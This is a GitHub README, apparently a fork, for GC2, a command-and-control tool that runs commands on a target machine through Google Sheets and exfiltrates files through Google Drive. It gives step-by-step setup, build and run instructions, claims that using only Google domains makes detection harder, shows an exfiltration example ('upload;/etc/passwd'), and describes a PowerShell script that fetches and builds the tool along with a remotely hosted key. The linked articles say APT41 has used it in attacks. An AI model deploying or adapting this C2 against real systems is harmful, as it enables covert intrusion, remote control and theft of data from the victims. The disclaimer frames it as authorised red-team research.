

# GC2

<p align="center">
  
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# My Contribution

A Powershell script that downloads go, adds it the user's path, downloads the zip from the repository "looCiprian/GC2-sheet", builds the executable, and runs gc2-sheet. Note: requires a web server to host the #MY_KEY_JSON file to Invoke-Webrequest down, #MY_SHEET_ID, and #MY_DRIVE_ID to be incorporated into the PS1.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        
    </p>    

4. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    The preferred way to configure the C2 is by modifying the `options.yml` file inside the `cmd` directory.

    The `options.yml` file is structured as follows:

    ```
    key: # escaped JSON key
    sheet: # sheetID
    drive: # driveID
    proxy: # proxy string
    verbose: # verbose true or false
    ```

6. **Build executable**
 
    ```
    go build gc2-sheet.go
    ```

7. **Run**

    If the configuration file has been modified just run:

    ```
    ./gc2-sheet
    ```

    Otherwise, it is possible to use the command options after compiling the C2 (this option will be deprecated soon):

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

## Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in column `A`, and the output will be printed in the column `B`. 

## Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

## Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

## Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Workflow

<p align="center">
  
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

# Articles related to this tool
[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)
